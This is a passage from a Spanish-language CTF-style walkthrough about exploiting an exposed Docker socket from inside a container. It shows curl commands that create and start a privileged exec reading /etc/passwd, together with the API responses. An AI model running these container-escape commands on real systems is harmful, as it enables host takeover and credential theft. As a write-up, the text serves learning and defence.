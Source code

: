Listones, podemos extraer el nombre y el ID del contenedor, pero nada más, pues busquemos en internet como podemos aprovecharnos del demonio :)

> Exposing /var/run/docker.sock could lead to full environment takeover. [Dejandayoff.com](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

Encontramos varias maneras con las cuales podemos romperlo. Podemos usar la opción `exec`, que simplemente cuando sea llamada será ejecutada sobre el contenedor. Acá podemos indicarle el comando que queremos ejecutar:

* [Riesgos al tener el demonio `/var/run/docker.sock` accesible - Stackoverflow.com](https://stackoverflow.com/questions/40844197/what-is-the-docker-security-risk-of-var-run-docker-sock).
* [Peligros de exponer el demonio `docker.sock` - Dejandayoff.com](https://dejandayoff.com/the-danger-of-exposing-docker.sock/).

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://localhost/containers/2d24bf61767ce2a7a78e842ebc7534db8eb1ea5a5ec21bb735e472332b8f9ca2/exec
HTTP/1.1 201 Created
Api-Version: 1.40
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Tue, 22 Dec 2020 23:28:09 GMT
Content-Length: 74

{"Id":"eff6b5d22c4b640f022d8f98b253a314b0a7cda0669ca1581d6916060d8dabdc"}
```

Con lo anterior creamos un ID para esa tarea `exec` que queremos ejecutar, así que ahora le indicamos que nos lo ejecute:

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/eff6b5d22c4b640f022d8f98b253a314b0a7cda0669ca1581d6916060d8dabdc/start
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)

root@2d24bf61767c:~# 
```

Pero no pasa nada :P

Después de probar varias cositas, lo único que me dio respuesta fue hacer una petición hacia mí máquina mediante `wget` o `curl`, pero no pude hacer nada con eso... Así que seguí buscando.

Algunos buenos post que intente y que explican muy bien:
